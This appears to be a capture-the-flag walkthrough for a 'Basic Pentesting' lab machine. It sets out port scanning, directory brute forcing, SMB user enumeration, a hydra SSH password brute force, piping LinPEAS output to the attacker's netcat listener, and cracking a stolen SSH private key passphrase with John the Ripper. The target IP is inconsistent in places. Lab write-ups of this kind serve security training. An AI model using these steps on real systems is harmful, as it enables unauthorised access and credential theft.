 # Basic Pentesting

### Web App Test

Target: `10.10.0.193`

Host: `10.10.14.20`

---

```bash
nmap -sC -sV -oN nmap 10.10.0.193
```

- `22/tcp` OpenSSH
- `80/tcp` Apache
- `138/tcp` Samba
- `445/tcp` Samba
- `8009/tcp` Apache
- `8080/tcp` Apache

Result: [nmap](nmap)

---

```bash
curl -o curl http://10.10.0.193
```

`<!-- Check our dev note section if you need to know what to work on. -->`

Result: [curl](curl)

---

```bash
gobuster dir -u http://10.10.0.193/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster -t 40
```

`/development          (Status: 301) [Size: 316] [--> http://10.10.0.193/development/]`

Result: [gobuster](gobuster)

---

```bash
curl -o curl-development http://10.10.0.193/development/
```

`href="dev.txt"`

`href="j.txt"`

Result: [curl-development](curl-development)

```bash
curl -o curl-dev.txt http://10.10.0.193/development/dev.txt
```

Result: [curl-dev.txt](curl-dev.txt)

```bash
curl -o curl-j.txt http://10.10.0.193/development/j.txt
```

Result: [curl-j.txt](curl-j.txt)

---

```bash
enum4linux 10.10.0.193 | tee enum4linux
```

`S-1-22-1-1000 Unix User\kay (Local User)`

`S-1-22-1-1001 Unix User\jan (Local User)`

Result: [enum4linux](enum4linux)

---

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -o hydra ssh://10.10.0.193
```

`[22][ssh] host: 10.10.0.193   login: jan   password: armando`

Result: [hydra](hydra)

---

Download: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Using: `jan:armando`

Host: 

```bash
scp /opt/linpeas/linpeas.sh jan@10.10.0.93:/dev/shm
```

```bash
nc -lvnp 9000 | tee linpeas
```

```bash
ssh jan@10.10.0.93
```

Victim:

```bash
cd /dev/shm

./linpeas.sh -a -e | nc 10.10.14.20 9000
```

`══╣ Possible private SSH keys were found!
/home/kay/.ssh/id_rsa`

Result: [linpeas](linpeas)

---

Cat and copy `/home/kay/.ssh/id_rsa`

Host:

```bash
cat > kay_id_rsa
```

paste

`ctrl` + `d` (2x)

```bash
ssh2john kay_id_rsa > hash
```

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

`beeswax (kay_id_rsa)`

---

```bash
chmod 600 kay_id_rsa
```

Using: `beeswax`

```bash
ssh -i kay_id_rsa kay@10.10.0.193
```

```bash
cat pass.bak
```

